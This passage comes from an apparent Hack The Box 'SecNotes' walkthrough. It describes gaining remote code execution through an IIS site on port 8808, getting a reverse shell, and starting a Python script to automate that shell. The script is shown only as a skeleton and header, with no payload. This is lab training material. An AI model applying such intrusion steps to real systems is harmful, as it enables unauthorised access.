 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-08-HackTheBox-SecNotes/2021-09-08-HackTheBox-SecNotes%2010:10:15.png)

Now, we try to RCE, it does not worked on port 80, but worked on port 8808, which matches to the ISS files we have on the shared folder

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-08-HackTheBox-SecNotes/2021-09-08-HackTheBox-SecNotes%2010:12:36.png)

Now, we get a reverse shell

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-08-HackTheBox-SecNotes/2021-09-08-HackTheBox-SecNotes%2012:21:32.png)

Now, let's automate a reverse shell on this box, to get easier.

So, we'll start with our python skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-08-HackTheBox-SecNotes/2021-09-08-HackTheBox-SecNotes%2002:50:26.png)

smb_rev_auto.py

```py
#!/usr/bin/python3
# Date: 2021-09-09
# Exploit Author: 0x4rt3mis
# Hack The Box - SecNotes
# Auto Reverse Shell - SMB

import argparse
import requests
import sys
import os
import urllib.parse
import socket, telnetlib
from threading import Thread
import threading
import http.server
import socket
from http.server import HTTPServer, SimpleHTTPRequestHandler

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
```
